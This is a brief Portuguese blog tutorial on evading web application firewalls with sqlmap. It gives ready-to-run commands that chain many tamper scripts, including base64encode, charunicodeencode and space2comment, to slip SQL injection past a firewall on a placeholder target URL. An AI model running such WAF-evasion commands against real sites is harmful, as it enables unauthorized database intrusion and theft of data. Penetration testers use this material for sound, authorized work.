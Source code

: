 ```yaml
---
title: Burlar WAF com SQLMAP
date: 2023-10-16 14:30:00 +0800
categories: [h4ckthreat, hacking]
tags: [sqlmap, hacking] # TAG names should always be lowercase
image: /assets/img/posts/sqlmap.jpg
---
```


<p align="justify"> Com o avanço dos Firewalls de Aplicação da Web (Web Application Firewalls - WAFs), a tarefa de utilizar a ferramenta sqlmap tornou-se progressivamente mais desafiadora, uma vez que as requisições são rotineiramente identificadas como suspeitas e bloqueadas automaticamente. Diante dessa situação, os desenvolvedores da ferramenta têm se empenhado em criar pequenos scripts para contornar esses WAFs e permitir a execução de consultas SQL injection.</p>

<p align="justify">Vamos seguir alguns passos para utilizar o sqlmap de forma mais eficaz:</p>

## 1. Baixando o sqlmap:

```
git clone https://github.com/sqlmapproject/sqlmap
```

## 2. Execute a ferramenta para avaliar a segurança do alvo específico:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=base64encode
```

<p align="justify"> Dessa forma, o script converterá a consulta em uma codificação base64, ajudando a superar alguns tipos de Firewalls.</p>

## 3. Quando se deparar com um Firewall mais sofisticado, será necessário empregar uma combinação de métodos de evasão:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

<p align="justify"> Essa combinação de técnicas de evasão será empregada simultaneamente para ocultar as requisições e passar pelos controles do Firewall, permitindo que o "sqlmap" continue a funcionar de maneira eficaz.</p> 
